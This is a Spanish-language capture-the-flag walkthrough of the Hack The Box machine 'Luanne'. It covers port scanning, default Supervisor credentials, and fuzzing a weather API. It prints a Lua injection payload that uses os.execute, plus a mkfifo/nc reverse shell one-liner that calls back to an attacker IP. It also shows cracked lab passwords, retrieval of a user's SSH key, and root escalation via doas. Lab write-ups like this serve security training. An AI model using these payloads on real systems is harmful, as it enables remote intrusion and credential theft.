


# Luanne

Máquina FreeBSD la cual cuenta con tres puertos abiertos 22:ssh, 80:http y 9001:http, ambas aplicaciones tienen un mecanismo de autenticación, el servicio de supervisor tiene contraseña débil, demás expone información del servidor. Para ganar acceso al servidor de exploto una vulnerabilidad de Lua, la cual permitió obtener ejecución de código remoto, con la información expuesta en supervisor se logró obtener una llave privada de un usuario y posteriormente desencriptar un backup con las credenciales de root.

.png>)

## Enumeración

Realizamos un escaneo con nmap para saber los puertos abiertos en el rango de 1-65536 puertos.

```
# Nmap 7.91 scan initiated Thu Mar  4 22:05:17 2021 as: nmap -p- --open -n -T5 -v -oG allPorts 10.10.10.218
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.218 ()	Status: Up
Host: 10.10.10.218 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 9001/open/tcp//tor-orport///
# Nmap done at Thu Mar  4 22:05:59 2021 -- 1 IP address (1 host up) scanned in 42.48 seconds
```

| Bandera      | Descripción                                                                  |
| ------------ | ---------------------------------------------------------------------------- |
| -p-          | Escaneo a los 65536 puertos                                                  |
| --open       | Reporta solo los puertos con estado "open".                                  |
| -T5          | Exploracion a velocidades insanas (lo hago porque es un entorno de pruebas). |
| -v           | Muestra más información sobre el sondeo que se está realizando.              |
| -oG allPorts | Exporta los resultados en un formato Grepable con el nombre de allPorts.     |

Posteriormente verificamos la versión de los servicios en los puertos abiertos y lanzamos los scripts por defecto.

```
# Nmap 7.91 scan initiated Thu Mar  4 22:06:31 2021 as: nmap -sCV -p22,80,9001 -oN targeted 10.10.10.218
Nmap scan report for 10.10.10.218
Host is up (0.069s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (NetBSD 20190418-hpn13v14-lpk; protocol 2.0)
| ssh-hostkey: 
|   3072 20:97:7f:6c:4a:6e:5d:20:cf:fd:a3:aa:a9:0d:37:db (RSA)
|   521 35:c3:29:e1:87:70:6d:73:74:b2:a9:a2:04:a9:66:69 (ECDSA)
|_  256 b3:bd:31:6d:cc:22:6b:18:ed:27:66:b4:a7:2a:e4:a5 (ED25519)
80/tcp   open  http    nginx 1.19.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=.
| http-robots.txt: 1 disallowed entry 
|_/weather
|_http-server-header: nginx/1.19.0
|_http-title: 401 Unauthorized
9001/tcp open  http    Medusa httpd 1.12 (Supervisor process manager)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=default
|_http-server-header: Medusa/1.12
|_http-title: Error response
Service Info: OS: NetBSD; CPE: cpe:/o:netbsd:netbsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar  4 22:09:38 2021 -- 1 IP address (1 host up) scanned in 187.62 seconds
```

| Bandera      | Descripción                                                             |
| ------------ | ----------------------------------------------------------------------- |
| -p22,80,9001 | Escaneo a los puertos 22, 80 y 9001.                                    |
| -sC          | Escanea con los scripts por defecto.                                    |
| -sV          | Intenta determinar la versión del servicio que se ejecuta en el puerto. |
| -oN          | Exporta los resultados en un formato nmap.                              |

Para empezar accedemos por el puerto 80 al sitio web, pero este se encuentra con usuario y contraseña.

.png>)

Probé algunas credenciales básicas, pero no obtuve resultado, pero podemos ver que había una redirección al localhost por el puerto 3000.

.png>)

En [robots.txt](https://developers.google.com/search/docs/advanced/robots/intro?hl=es) había un directorio.

.png>)

Pero este no era accesible.

.png>)

El servicio que corre en el puerto 9001, tiene la contraseña por defecto [https://developpaper.com/supervisor-process-manager/](https://developpaper.com/supervisor-process-manager/), aquí podemos ver monitorear la memoria, procesos y el tiempo que ha estado encendido.

.png>)

Checando la salida de cada uno podemos ver que en la parte de procesos se encuentra un servicio web de manera local por el puerto 3000 en el directorio weather utilizando usando el framework de Lua.

.png>)

Como anteriormente vimos, el directorio weather no es accesible pero es posible que algún directorio, si. Así que hicimos fuzzing en el directorio weather.

```
wfuzz -c --hc=404 -L -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.218/weather/FUZZ 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
Target: http://10.10.10.218/weather/FUZZ
Total requests: 220560
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000007114: 200 1 L 12 W 90 Ch "forecast"
```

Obtuvimos un directorio llamado “forecast”. Vemos que responde con el código de estado y que podemos pasarle como parámetro list.

.png>)

De la siguiente manera: [http://10.10.10.218/weather/forecast?city=list](http://10.10.10.218/weather/forecast?city=list), ahora nos lista las ciudades.

.png>)

Podemos definir el nombre de la ciudad para ver los resultados [http://10.10.10.218/weather/forecast?city=London](http://10.10.10.218/weather/forecast?city=London), pero no hay nada relevante, más que saber que se trata del resultado de una API.

.png>)

Si ingresamos una ‘ vemos que en efecto se trata de Lua, por el tipo de error que nos está lanzando.

.png>)

## Punto de acceso

Para aprovecharnos de este error busqué algunas vulnerabilidades que se pueden presentar, me encontré con el siguiente artículo: 



Explican algunas vulnerabilidades de Lua, en concreto después de probar, es una vulnerabilidad de ejecución de código Lua. Para construir la inyección me basé del artículo y también de manual, pero solo para saber cómo se comentaba el código (--). 



Básicamente la inyección consiste lo siguiente: **');os.execute('cat /etc/passwd')--** buscando en el manual y como muestran en los ejemplos os.execute ejecuta comandos a nivel de sistema y si no comentamos al final la nos lanzará un error.

.png>)

Podríamos empezar a enumerar el sistema desde la URL, pero va a ser algo lento por lo que podemos realizar una reverse shell. De la siguiente manera: **');os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.163 6000 >/tmp/f')--** recordando que algunas versiones de nc no cuentan con el parámetro -e, se puede hacer uso de mkfifo y nc para establecer una reverse shell, en este caso una sh. Podemos usar el siguiente recurso:



## Movimiento lateral

En el mismo directorio donde estamos /var/www un archivo .htpasswd, este archivo contiene el nombre de usuario y contraseña de autenticación básica del servidor.

.png>)

Guardamos sólo el hash en un archivo, podemos realizar el cracking con john. Ahora tenemos un usuario y contraseña **webapi_user:iamthebest**.

.png>)

Ya podemos autenticarnos en [http://10.10.10.218/](http://10.10.10.218), igualmente revisando el index.html podemos ver que no sirve de mucho.

.png>)

Recordando la siguiente línea en el supervisor en la parte de procesos, existe un servidor web de manera local.

```
r.michaels 185 0.0 0.0 38204 2024 ? Is 6:20AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www
```

Podemos ingresar al portal pero solo de manera autenticada

.png>)

Mi idea principal era pasar chisel al servidor mediante FTP para hacer un remote port forwarding para realizar fuzzing en el URL, pero no funciono chisel… así que lo hice de manera manual. Me estaba complicando más de lo debido.

Podemos listar el contenido del usuario r.michaels, vemos que tiene activado el directory listing y que cuenta con una llave privada. **curl -s --user webapi_user:iamthebest **[**http://127.0.0.1:3001/**](http://127.0.0.1:3001/home/)**\~r.michaels**

.png>)

Ahora podemos descargar la llave pública.

```
curl -s --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa
```

## Escalada de privilegios

Una vez que nos conectamos por SSH con el usuario r.michaels, liste el contenido del directorio /home y vemos que existe un backup.



Para trabajar de una manera más cómoda transferir el backup a mi máquina con ftp. **\*No es necesario realizar este paso\***

1. Abrimos un servidor ftp.** python3 -m pyftpdlib -p 21 -w**
2. Nos conectamos por ftp desde el servidor. **ftp 10.10.14.164**
3. Iniciamos sesión. **anonymous:anonymous**
4. Subimos el archivo. **put devel_backup-2020-09-16.tar.gz.enc**



Intente desencriptar el archivo con openssl, pero no funciono investigando más a fondo, es una utilidad llamada netpgp, que proporciona firma, verificación cifrado y descifrado de archivos, según la documentación, se descifrar de la siguiente manera:



```
netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/devel_backup-2020-09-16.tar.gz
```

No tenemos permisos de escritura en el directorio actual, pero si tenemos permisos en /tmp, ahí podemos mandar el output. Debemos ser rápidos porque el directorio /tmp se borra cada cierto tiempo.

.png>)

En /www/.htpasswd se encuentra un usuario y contraseña, pero esta es diferente a la que se había obtenido antes. **webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.** La contraseña es littlebear.

.png>)

Primero debemos de encontrar alguna alternativa para cambiar de usuario porque no podemos usar su, en este recurso se listan varias. Haremos uso de **doas** de la siguiente manera.



.png>)

Con esto ya seremos root en el sistema.

.png>)
